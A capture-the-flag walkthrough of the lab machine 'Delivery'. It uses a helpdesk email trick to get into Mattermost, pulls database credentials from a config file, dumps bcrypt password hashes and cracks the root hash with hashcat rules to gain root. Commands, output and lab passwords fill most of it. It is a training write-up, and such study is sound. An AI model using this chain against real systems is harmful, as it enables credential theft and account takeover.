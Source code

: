 Target: 10.10.10.222

## Enumeration:

nmap
```
$ nmap -sC -sV -p- 10.10.10.222

Nmap scan report for 10.10.10.222
Host is up (0.036s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 9c:40:fa:85:9b:01:ac:ac:0e:bc:0c:19:51:8a:ee:27 (RSA)
|   256 5a:0c:c0:3b:9b:76:55:2e:6e:c4:f4:b9:5d:76:17:09 (ECDSA)
|_  256 b7:9d:f7:48:9d:a2:f2:76:30:fd:42:d3:35:3a:80:8c (ED25519)
80/tcp open  http    nginx 1.14.2
|_http-server-header: nginx/1.14.2
|_http-title: Welcome
8065/tcp open  unknown

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

checking 10.10.10.222

![](delivery1.png)

clicking contact us

![](delivery2.png)

adding subdomain to /etc/hosts
```
10.10.10.222    delivery.htb helpdesk.delivery.htb 
```

### Findings:Looking for attack vectors

[Hacking through helpdesk blog post](https://medium.com/intigriti/how-i-hacked-hundreds-of-companies-through-their-helpdesk-b7680ddc2d4c)


## Foothold:

visiting the subdomain

![](delivery3.png)

creating ticket

![](delivery4.png)

```
Email Address: sssadmin@local.host
Ticket Number: 2963704
```

creating an account in mattermost
```
Email Address: 2963704@delivery.htb
Username : sssadmin
Password: @Password123
```
![](delivery5.png)

checking inbox

![](delivery6.png)

activate the account using the link

![](delivery7.png)

Loot:

`maildeliverer:Youve_G0t_Mail!`


## Lateral Movement:

ssh to the machine
```
$ ssh maildeliverer@10.10.10.222                                        

maildeliverer@Delivery:~$ id

uid=1000(maildeliverer) gid=1000(maildeliverer) groups=1000(maildeliverer)
```

```
maildeliverer@Delivery:~$ cat user.txt

<redacted>
```


## Priv Escalations:

locating mattermost config file at /opt/mattermost/config/config.json

config.json
```json              
<snip>
    },
    "SqlSettings": {
        "DriverName": "mysql",
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
        "DataSourceReplicas": [],
        "DataSourceSearchReplicas": [],
        "MaxIdleConns": 20,
        "ConnMaxLifetimeMilliseconds": 3600000,
        "MaxOpenConns": 300,
        "Trace": false,
        "AtRestEncryptKey": "n5uax3d4f919obtsp1pw1k5xetq1enez",
        "QueryTimeout": 30,
        "DisableDatabaseSearch": false
    },
<snip>
```

DB creds:

mmuser:Crack_The_MM_Admin_PW

connecting to the database
```
maildeliverer@Delivery:~$ mysql -u mmuser -D mattermost -p 
```

dump user hashes
```sql
MariaDB [mattermost]> show tables;
+------------------------+
| Tables_in_mattermost   |
+------------------------+
<snip>
| Users                  |
+------------------------+
46 rows in set (0.001 sec)


MariaDB [mattermost]> SELECT Username, Password  FROM Users;
+----------------------------------+--------------------------------------------------------------+
| Username                         | Password                                                     |
+----------------------------------+--------------------------------------------------------------+
| surveybot                        |                                                              |
| loban                            | $2a$10$v.6oGzpfyknY1fCsSWlur.crDcUqSn5laG3xqwGx6/9R1n//arJ2W |
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |
| sssadmin                         | $2a$10$7WIw9xqef9kaanaLBRMKiOLWaclP5SAwIVn9nn10M5Wc/K0zBJcC2 |

+----------------------------------+--------------------------------------------------------------+
4 rows in set (0.001 sec)
```

creating hash.txt
```
$ echo '$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO' > hash.txt
```

identifying the hash
```
$ hashid -m '$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO'

Analyzing '$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO'
[+] Blowfish(OpenBSD) [Hashcat Mode: 3200]
[+] Woltlab Burning Board 4.x 
[+] bcrypt [Hashcat Mode: 3200]
```

base on root conversation hashcat rules is used with variations of PleaseSubscribe!
```
root: PleaseSubscribe! may not be in RockYou but if any hacker manages to get our hashes, they can use hashcat rules to easily crack all variations of common words or phrases.
```

creating wordlist
```
echo 'PleaseSubscribe!' > passwords.txt
```

searching for best hashcat rules 

[OneRuletoRuleThemAll blog post](https://notsosecure.com/one-rule-to-rule-them-all/)

[OneRuleToRuleThemAll Github](https://github.com/NotSoSecure/password_cracking_rules)


downloading the rule
```
$ wget https://raw.githubusercontent.com/NotSoSecure/password_cracking_rules/master/OneRuleToRuleThemAll.rule
```

hashcat
```
$ hashcat -m 3200 -o crack.txt hash.txt passwords.txt -r OneRuleToRuleThemAll.rule

<snip>
Session..........: hashcat
Status...........: Cracked
Hash.Name........: bcrypt $2*$, Blowfish (Unix)
Hash.Target......: $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v...JwgjjO
Time.Started.....: Tue Apr 20 16:00:12 2021 (22 mins, 28 secs)
Time.Estimated...: Tue Apr 20 16:22:40 2021 (0 secs)
Guess.Base.......: File (passwords.txt)
Guess.Mod........: Rules (OneRuleToRuleThemAll.rule)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:        7 H/s (1.44ms) @ Accel:4 Loops:16 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 12938/51995 (24.88%)
Rejected.........: 0/12938 (0.00%)
Restore.Point....: 0/1 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:12937-12938 Iteration:1008-1024
<snip>
```

Loot:

`root:PleaseSubscribe!21`

su to root
```
maildeliverer@Delivery:~$ su - root
 
root@Delivery:~# id

uid=0(root) gid=0(root) groups=0(root)
```

```
root@Delivery:~# cat root.txt

<redacted>
```
